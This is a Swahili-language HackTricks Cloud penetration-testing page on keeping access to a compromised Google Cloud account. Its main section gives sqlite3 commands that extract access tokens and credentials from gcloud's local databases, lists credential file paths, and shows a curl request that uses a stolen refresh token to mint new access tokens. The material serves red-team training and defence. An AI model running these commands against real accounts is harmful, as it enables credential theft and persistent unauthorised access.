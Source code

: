 # GCP - Kudumu bila Huduma

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

Hizi ni mbinu muhimu mara moja, kwa namna fulani, umefanikiwa kudukua baadhi ya vibali vya GCP au mashine inayotumika katika mazingira ya GCP.

## Udukuzi wa Kitufe

### Vitufe vya Mtumiaji Aliyethibitishwa

Ili kupata **kitufe cha sasa** cha mtumiaji unaweza kukimbia:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Angalia ukurasa huu jinsi ya **kutumia moja kwa moja token huu kwa kutumia gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Ili kupata maelezo ya **kuunda token mpya la ufikiaji** endesha:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
Pia niwezekana kupata vitufe vya kuboresha katika **`$HOME/.config/gcloud/application_default_credentials.json`** na katika **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Ili kupata kitufe cha upatikanaji kilichoboreshwa kipya na **kitufe cha kuboresha**, kitambulisho cha mteja, na siri ya mteja endesha:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Uhalali wa vivuli vya kuboresha unaweza kusimamiwa katika **Admin** > **Usalama** > **Kudhibiti kikao cha Google Cloud**, na kwa chaguo-msingi imewekwa kuisha baada ya masaa 16 ingawa inaweza kuwekwa isiishe kamwe:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Akaunti za Huduma

Kama ilivyo kwa watumiaji waliothibitishwa, ikiwa utafanikiwa **kuharibu faili ya ufunguo binafsi** wa akaunti ya huduma utaweza **kuipata kawaida kwa muda mrefu kama unavyotaka**.\
Hata hivyo, ikiwa unajiibia **kitufe cha OAuth** cha akaunti ya huduma hii inaweza kuwa ya kuvutia zaidi, kwa sababu, hata kama kwa chaguo-msingi vivuli hivi ni vya manufaa kwa saa moja tu, ikiwa **mwendeshaji anafuta ufunguo binafsi wa api, kitufe cha OAuth bado kitakuwa halali hadi kiishe**.

### Metadata

Kwa wazi, muda mrefu ukiwa ndani ya mashine inayotumika katika mazingira ya GCP utaweza **kupata akaunti ya huduma iliyowekwa kwenye mashine hiyo kwa kuwasiliana na mwisho wa metadata** (kumbuka kuwa vivuli vya OAuth unavyoweza kupata kwenye mwisho huu kawaida vimezuiliwa na scopes).

### Upatanisho

Baadhi ya upatanisho kwa mbinu hizi zinaelezewa katika [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Marejeo

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
